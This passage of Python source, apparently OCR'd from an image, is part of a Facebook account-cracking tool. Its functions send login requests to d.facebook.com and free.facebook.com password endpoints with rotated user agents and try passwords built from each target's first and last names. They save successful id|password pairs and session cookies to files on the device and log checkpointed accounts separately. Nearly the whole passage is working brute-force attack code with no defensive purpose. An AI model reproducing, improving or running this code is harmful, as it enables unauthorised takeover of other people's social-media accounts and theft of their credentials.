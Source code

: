 			head = {'Host': 'd.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="109", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
			getlog = session.get(f'https://d.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
			idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://d.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
			complete = session.post('https://d.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
			IJAZ=session.cookies.get_dict().keys()
			if "c_user" in IJAZ:
				coki=session.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
				print('\r\r\033[1;32m [IJAZ-OK] %s | %s'%(ids,pas))
				open('/sdcard/IJAZ-OK.txt', 'a').write(ids+'|'+pas+'\n')
				oks.append(ids)
				break
			elif 'checkpoint' in IJAZ:
				if 'y' in pcp:
					print('\r\r\x1b[38;5;205m [𝐈𝐣𝐚𝐳-CP] '+ids+' | '+pas+'\033[1;97m')
					open('/sdcard/𝐈𝐣𝐚𝐳-CP.txt', 'a').write(ids+'|'+pas+'\n')
					cps.append(ids)
					break
				else:
					break
			else:
				continue
	except requests.exceptions.ConnectionError:
		time.sleep(20)
	loop+=1
#method7
def api8(ids,names,passlist):
	global loop,oks,cps
	sys.stdout.write('\r\r\033[1;37m [𝐈𝐣𝐚𝐳-M8] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
	session = requests.Session()
	try:
		first = names.split(' ')[0]
		try:
			last = names.split(' ')[1]
		except:
			last = 'Khan'
		ps = first.lower()
		ps2 = last.lower()
		for fikr in passlist:
			pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
			ua=random.choice(ugen)
			head = {'Host': 'free.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="109", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
			getlog = session.get(f'https://free.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
			idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://free.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}